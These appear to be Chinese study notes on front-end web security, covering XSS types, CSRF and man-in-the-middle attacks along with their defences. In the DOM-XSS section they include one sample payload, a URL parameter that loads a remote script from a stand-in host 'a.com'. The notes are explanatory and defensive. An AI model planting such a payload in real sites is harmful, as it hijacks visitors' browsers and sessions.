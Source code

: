 
## web safe

常见的 web 前端安全攻击方式：
- xss 跨站脚本攻击
- csrf 跨站请求伪造
- MITM 中间人攻击


## XSS

跨站脚本攻击: 
在网页中插入恶意的js脚本， 当用户浏览时，就会触发脚本, 造成xss攻击    

### 分类
- 反射型
- 存储型
- DOM型

#### 反射型

用户输入的注入代码 通过浏览器传入到服务器后，又被反射回来，在浏览器中解析执行

demo: 表单输入 `<script src >` 然后回来执行 
电子邮件？ 聊天软件?

#### 存储型
用户输入的注入代码，通过传输，被永久春芳到了目标服务器的数据库或文件中，用户再次访问这个注入代码的页面就出现了

博客论坛留言板

#### DOM型
通过修改页面的dom结构

例子：

攻击者诱导被害者打开链接` hzfe.org?name=<script src="http://a.com/attack.js"/>`。

被攻击网站前端取出 URL 的 name 字段后未经转义直接通过 innerHTML 渲染到页面中。

被害者在不知情的情况下，执行了攻击者注入的脚本。


### 危害 

1. 劫持用户cookie，通过在网页中写入并执行文件，劫持用户浏览器，将用户当前使用的sessionID信息发送至攻击者控制的网站或服务器
2. 利用 iframe frame XHR Flash等，以用户的身份执行一些动作
3. 利用植入flash 通过crossdomain权限设置进一步获取更改权限，或利用java等得到类似操作
4. 挂马
5. 蠕虫
6. 有局限性的键盘记录

### 防范
1. 对外部的输入进行过滤编码和转译
2. 设置 cookie httpOnly 属性, 禁止js读取cookie
3. 开启CSP content security policy, 内容安全策略 ，规定浏览器只能执行特定来源的代码 



## csrf
跨站请求伪造

攻击者盗用用户身份，以用户身份发送恶意请求 

如：在第三方网站上直接放一个img， 就会盗用这个img链接相关的cookie从而发起请求

### 防范

1. csrf token
  在用户请求时需要加入token， 进行身份验证
    - 问题，大型网站添加seesion存储会增加服务器压力
2. http header中添加自定义属性并验证
3. 添加白名单，仅允许安全域名请求
4. 增加验证码验证
5. cookie设置 SameSite 属性，



## MITM 

中间人攻击

主要有两个阶段： 拦截和解密

### 拦截

在用户数据未到达目标设备前拦截，分为主动和被动

1. 主动
  - APR欺骗: 
  - DNS: 冒充域名服务器，将IP进行转发
2. 被动:
  免费的wifi热点 


### 解密

ssl劫持伪造证书 -> ssl剥离 将https降级为http转给用户使用 


### 防范

对开发者:
  - 支持https
  - 开启 hsts (Http strict transport security) 策略，有个缺点是用户首次访问时因还未收到 HSTS 响应头而不受保护

对用户：
  - 尽可能是用https
  - 避免不知名不安全wifi
  - 不忽略不安全的浏览器通知
  - 公共网络下不进行涉及敏感信息交互
  - 用可信的第三方CA厂商，不下载不明来源的证书


